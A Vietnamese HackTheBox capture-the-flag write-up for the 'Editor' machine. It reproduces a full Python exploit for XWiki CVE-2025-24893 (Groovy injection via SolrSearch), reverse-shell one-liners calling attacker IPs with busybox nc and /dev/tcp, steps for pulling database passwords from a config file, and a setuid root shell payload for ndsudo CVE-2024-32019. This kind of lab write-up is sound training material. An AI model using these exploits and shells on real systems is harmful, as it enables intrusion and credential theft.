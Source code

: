```yaml
---
title: HTB Editor
published: 2025-08-20
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
draft: false
description: Writeup about Editor Machine
image: "/assets/post_image/editor.png"
---
```

# HTB Labs: Editor 
## I. User flag
Đến với lab việc đầu tiên ta sẽ recon trước bằng nmap 
![image](https://hackmd.io/_uploads/SyS02j8Kge.png)
Ta thấy có 2 service web ở port `80` và `8080` và 1 `ssh`. Giờ mình sẽ kiểm trả ở port `80` trước. Trước đó thì ta cần update tên miền vào file `/etc/hosts` trước
![image](https://hackmd.io/_uploads/rJC21h8Kgg.png)
Nhìn chung đây là một trang sản phẩm cho người dùng có thể tải `Code Editor` về máy và tìm kiếm thì mình không thấy điểm nào để có thể inject input vào nên tạm thời sẽ đi đến với port `8080`
![image](https://hackmd.io/_uploads/S1v74HDYgg.png)
Ta thấy đây là một trang dùng `xwiki` để giới thiệu về tool `Simplist code` ở phía trang port `80`. Có một vài trường và path đáng để xem xét. Ở bên dưới ta thấy rằng phiên bản `xwiki` là `XWiki Debian 15.10.8`
![image](https://hackmd.io/_uploads/SJh04Bvtle.png)
Mình sẽ check sploit bằng [exploit-db](https://www.exploit-db.com/) để xem có bản khai thác hay `POC` nào được public không. Ta thấy được có bản `CVE` đã công bố 2025 về lỗ hỏng của version này
![image](https://hackmd.io/_uploads/S1l8LSwtxl.png)

```python 

# Exploit Title: XWiki Platform - Remote Code Execution
# Exploit Author: Al Baradi Joy
# Exploit Date: April 6, 2025
# CVE ID: CVE-2025-24893
# Vendor Homepage: https://www.xwiki.org/
# Software Link: https://github.com/xwiki/xwiki-platform
# Version: Affected versions up to and including XWiki 15.10.10
# Tested Versions: XWiki 15.10.10
# Vulnerability Type: Remote Code Execution (RCE)
# CVSS Score: 9.8 (Critical)
# CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
# Description:
# XWiki Platform suffers from a critical vulnerability where any guest user
can
# execute arbitrary code remotely through the SolrSearch endpoint. This can
lead
# to a full server compromise, including the ability to execute commands on
the
# underlying system. The vulnerability impacts the confidentiality,
integrity,
# and availability of the XWiki installation. The issue has been patched in
XWiki
# versions 15.10.11, 16.4.1, and 16.5.0RC1.
# Proof of Concept: Yes
# Categories: XWiki, Remote Code Execution, CVE-2025, RCE
# References:
# - GHSA Advisory: https://github.com/advisories/GHSA-rr6p-3pfg-562j
# - NVD CVE Details: https://nvd.nist.gov/vuln/detail/CVE-2025-24893
# - GitHub Exploit Link:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py

import requests

# Banner
def display_banner():
print("="*80)
print("Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code
Execution")
print("Exploit Author: Al Baradi Joy")
print("GitHub Exploit:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py")
print("="*80)

# Function to detect the target protocol (HTTP or HTTPS)
def detect_protocol(domain):
https_url = f"https://{domain}"
http_url = f"http://{domain}"

try:
response = requests.get(https_url, timeout=5, allow_redirects=True)
if response.status_code < 400:
print(f"[✔] Target supports HTTPS: {https_url}")
return https_url
except requests.exceptions.RequestException:
print("[!] HTTPS not available, falling back to HTTP.")

try:
response = requests.get(http_url, timeout=5, allow_redirects=True)
if response.status_code < 400:
print(f"[✔] Target supports HTTP: {http_url}")
return http_url
except requests.exceptions.RequestException:
print("[✖] Target is unreachable on both HTTP and HTTPS.")
exit(1)

# Exploit function
def exploit(target_url):
target_url = detect_protocol(target_url.replace("http://",
"").replace("https://", "").strip())
exploit_url =
f"{target_url}/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"

try:
print(f"[+] Sending request to: {exploit_url}")
response = requests.get(exploit_url, timeout=10)

# Check if the exploit was successful
if response.status_code == 200 and "root:" in response.text:
print("[✔] Exploit successful! Output received:")
print(response.text)
else:
print(f"[✖] Exploit failed. Status code:
{response.status_code}")

except requests.exceptions.ConnectionError:
print("[✖] Connection failed. Target may be down.")
except requests.exceptions.Timeout:
print("[✖] Request timed out. Target is slow or unresponsive.")
except requests.exceptions.RequestException as e:
print(f"[✖] Unexpected error: {e}")

# Main execution
if __name__ == "__main__":
display_banner()
target = input("[?] Enter the target URL (without http/https):
").strip()
exploit(target)
            
```
Lỗi nằm trong macro SolrSearch của XWiki. Khi người dùng gửi truy vấn tìm kiếm với `media=rss`, dữ liệu này được chèn trực tiếp vào `template`. `Template` này cho phép chèn và thực thi mã `Groovy`, nhưng không có cơ chế lọc/chặn thích hợp.
Kết quả: kẻ tấn công có thể inject Groovy script → được thực thi trực tiếp trên server.

Ta thấy được đoạn payload rce là `}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}`. Ở đây sẽ dùng `}}}` để out khỏi context ban đầu sau đó dùng macro `async` để đồng bộ hóa và chèn thêm macro `groovy` vào thực hiện `RCE` để đọc file `/etc/passwd`. Giờ ta sẽ tiến hành inject thử với lệnh
Mình sẽ test thử với lệnh `id` về cơ bản để check xem quyền của ta như thế nào, có thể là root hay không. Như ta thấy thì kết quả trả về khá nhiều data nhưng ta chỉ cần vô theo các dòng có `rss`
![image](https://hackmd.io/_uploads/SJLj0HDYxe.png)
Ta có thể thấy được kết quả đã thành công có thể thực hiện được `RCE`. Giờ mình sẽ check thử xem có thể đưa `rev shell` vào không để thuận tiện dùng lệnh
Ta có thể dùng `'busybox nc 10.10.10.10 9001 -e /bin/bash'` để rev shell. Ta nên thêm busybox để có thể chạy `nc -e` thay vì chạy lệnh `bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/4444 0>&1'` vì sẽ có nhiều target không có bash đầy đủ và cũng không hỗ trợ `/dev/tcp`
![image](https://hackmd.io/_uploads/HyXkMuPtgg.png)
Ta đã thành công thực hiện `rev shell`, giờ là đến việc tìm `user flag` . Sau một lúc tìm hiểu về `XWiki` ta thấy được có một file đặc biệt `/usr/local/xwiki/webapps/xwiki/WEB-INF/hibernate.cfg.xml`. File này là nơi `XWiki` dùng để kết nối với database của server để thực hiện xử lý các dữ liệu liên quan đến `login, logout, reg,...` 
Do `dir` không giống nhau nên mình check thử thì thấy được file nằm ở `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`
![image](https://hackmd.io/_uploads/HJIFBdwKxl.png)
Ta có thể thấy được thông tin `password` bằng lệnh `cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep "password"` 
![image](https://hackmd.io/_uploads/Bkh9D_wFll.png)
Cộng thêm với username là `oliver` ta có thể login vào `ssh server` để lấy shell
![image](https://hackmd.io/_uploads/SkA6vuDFlx.png)
> 3fd90dfed2869746543d3f036734541d

## II. Root flag
Đến với phần lấy `root flag`, thì việc cần làm là check trước các bước đầu tiên là `enum SUID` với `find / -perm -4000 2>/dev/null`
![image](https://hackmd.io/_uploads/ry-29OvYlg.png)
Ta thấy được đáng chú ý nhất là `ndsudo` từng dính `CVE-2024-32019 (Untrusted Search Path)`. Lỗ hổng phát sinh khi `ndsudo` được đóng gói dưới dạng `SUID root` (root-owned và có bit SUID), nhưng lại tìm các lệnh thông qua biến môi trường `PATH`, điều này dẫn đến tình huống `Untrusted Search Path`.
Mình tìm được `POC` cụ thể [ở đây](https://github.com/AzureADTrent/CVE-2024-32019-POC)
ta sẽ dùng file c 
```c 
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
Và sau đó dùng gcc compile thành binary do ở phía `ssh server` không có `gcc` nên ta sẽ dùng ở local. Tiếp đến để truyền nhanh lên `ssh server` mà không cần mở server ở local ta có thể dùng `scp`
![image](https://hackmd.io/_uploads/HJnW2uvKxg.png)
Giờ ta sẽ set `PATH` biến mội trường cho nó và cấp quyền thực thi
![image](https://hackmd.io/_uploads/S1X8huPFel.png)
Sau cùng là sẽ gọi lệnh `./ndsudo nvme-list`
![image](https://hackmd.io/_uploads/H1qXT_vKge.png)
Giờ ta đã có quyền root giờ chỉ cần đến root và lấy flag
![image](https://hackmd.io/_uploads/B1aHTOvKeg.png)

> 396ef747a71039bd66d36d2d75c4966f

